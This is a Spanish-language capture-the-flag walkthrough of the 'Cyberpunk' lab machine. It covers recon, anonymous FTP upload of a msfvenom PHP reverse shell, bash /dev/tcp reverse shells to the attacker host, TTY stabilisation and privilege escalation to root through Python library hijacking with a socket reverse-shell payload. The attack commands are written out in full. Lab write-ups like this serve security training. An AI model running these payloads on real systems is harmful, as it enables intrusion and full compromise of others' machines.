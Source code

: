# Cyberpunk

Maquinas que vamos a utilizar Kali Linux y Cyberpunk [https://thehackerslabs.com/cyberpunk/](https://thehackerslabs.com/cyberpunk/)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2096.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=2000 -n -vvv -Pn 10.0.3.32
```

![image.png](./imagenes/image%2097.png)

- Miramos lo que corre por el puerto 80 en el navegador web y en el código de la web
    
    ![image.png](./imagenes/image%2098.png)
    
    `CTRL+U`
    
    ![image.png](./imagenes/image%2099.png)
    
    No se ve nada interesante.
    
- Vamos a probar con el FTP que admite usuario **anonymous**
    
    ```bash
    ftp 10.0.3.32
    ```
    
    ![image.png](./imagenes/image%20100.png)
    
    `ls`
    
    ![image.png](./imagenes/image%20101.png)
    
    Vemos que tenemos  un archivo index.html que seria el index principal.
    
    - Nos descargamos a nuestra maquina el archivo secret.txt
        
        `get secret.txt`
        
        ![image.png](./imagenes/image%20102.png)
        

- Visualizamos su contenido.
    
    `cat secret.txt` 
    
    ![image.png](./imagenes/image%20103.png)
    
    Tenemos un posible nombre de usuario **Arasaka**
    
- Creamos un archivo malicioso php con msfvemon y vamos a descargarlo en la maquina victima.
    
    ```bash
    msfvenom -p php/reverse_php LHOST=10.0.3.4 LPORT=443 -f raw > virus.php
    ```
    
    ![image.png](./imagenes/image%20104.png)
    
- En el FTP descargamos el archivo malicioso
    
    `put virus.php`
    
    `ls`
    
    ![image.png](./imagenes/image%20105.png)
    
- Nos ponemos a la espera en el puerto 443
    
    `nc -nlvp 443` 
    
    ![image.png](./imagenes/image%20106.png)
    
- Enel navegador web ejecutamos la siguiente URL http://10.0.3.32/virus.php
    
    ![image.png](./imagenes/image%20107.png)
    
    ![image.png](./imagenes/image%20108.png)
    
- Vamos a estabilizar la conexión.
    
    
    - Probamos a ejecutar una reverse shell . [https://www.revshells.com/](./imagenes/https://www.revshells.com/)
        
        ![image.png](./imagenes/image%2057.png)
        
        `sh -i >& /dev/tcp/10.0.3.4/444 0>&1`
        
        `bash -c "sh -i >& /dev/tcp/10.0.3.4/444 0>&1"`
        
    
    - Nos ponemos a la escucha en el puerto 444 con netcat.
        
        ![image.png](./imagenes/image%20109.png)
        
    
    - En la escucha 443 escribimos lo siguiente.
        
        `bash -c "sh -i >& /dev/tcp/10.0.3.4/444 0>&1"`
        
        ![image.png](./imagenes/image%20110.png)
        
    
    - Ya tenemos una conexión estable.
        
        ![image.png](./imagenes/image%20111.png)
        
    - Vamos a empezar el tratamiento de la TTY.
        - Escribimos el siguiente comando  y veremos que adquirimos un prompt.
            
            `script /dev/null -c bash`
            
        - Hacemos un **CTRL+Z**
            
            **`CTRL+Z`**
            
        - Escribimos a continuación.
            
            `stty raw -echo; fg`
            
        
        - Escribimos **reset xterm** . Es posible que no se muestre cuando lo escribimos pero aun así lo escribimos y pulsamos Enter. Y nos aparecerá la siguiente pantalla.
            
            `reset xterm`
            
        - Por ultimo tenemos que exportar 2 variables. escribimos lo siguiente.
            
            `export TERM=xterm`
            
            `export SHELL=bash`
            
            ![image.png](./imagenes/image%20112.png)
            
    
    - Vamos a husmear entre los directorios por ejemplo en el directorio **/opt**
        
        `cd /`
        
        `cd opt`
        
        `ls -la`
        
        ![image.png](./imagenes/image%20113.png)
        
        Miramos el contenido de arasaka.txt
        
        `cat arasaka.txt`
        
        ![image.png](./imagenes/image%20114.png)
        
    - Parece un codigo **Brainfuck. Usamos la pagina** [https://www.dcode.fr/brainfuck-language](./imagenes/https://www.dcode.fr/brainfuck-language) para decodificarlo.
        
        ![image.png](./imagenes/image%20115.png)
        
        **cyberpunk2077**
        
    - Lo probamos por que podría ser la contraseña del usuario **arasaka.**
        
        `su arasaka`
        
        `whoami`
        
        ![image.png](./imagenes/image%20116.png)
        
    - Miramos si hay algo interesante en la carpeta del usuario arasaka.
        
        `cd /home/arasaka`
        
        `ls -la`
        
        ![image.png](./imagenes/image%20117.png)
        
        Nos encontramos un archivo llamado [**randombase64.py](./imagenes/http://randombase64.py)** miramos que contiene.
        
        `cat [randombase64.py](./imagenes/http://randombase64.py/)` 
        
        ![image.png](./imagenes/image%20118.png)
        
        No podemos modificarlo pero si ejecutarlo. Vemos que importa la librería base64.
        
    - Vamos a hacer un **library hijacking** (colocaremos una versión maliciosa de la biblioteca en una ubicación prioritaria, el programa la ejecutará en lugar de la legítima).
        
        
        - Miramos **el path** que sigue python3 al leer las librerias.
            
            `python3 -c "import sys ; print(sys.path)"`
            
            ![image.png](./imagenes/image%20119.png)
            
            **`‘’`** nos indica que la primera ubicación es en el directorio actual.
            
        - Nos creamos un archivo llamado base64.py y le metemos una reverse Shell en Python. Usamos la web [https://www.revshells.com/](./imagenes/https://www.revshells.com/)
            
            
            ![image.png](./imagenes/image%20120.png)
            
            <aside>
            
            **import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.3.4",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")**
            
            </aside>
            
            `nano base64.py`
            
            ![image.png](./imagenes/image%20121.png)
            
            `ls -la`
            
            ![image.png](./imagenes/image%20122.png)
            
    - Nos ponemos a la escucha en el puerto 5555
        
        `nc -nlvp 5555`
        
        ![image.png](./imagenes/image%20123.png)
        
    - Recordamos las rutas absolutas que vamos a utilizar
        
        `sudo -l`
        
        ![image.png](./imagenes/image%20124.png)
        
    - Ejecutamos el archivo **randombase64.py**
        
        `sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py`
        
        ![image.png](./imagenes/image%20125.png)
        
        ![image.png](./imagenes/image%20126.png)
       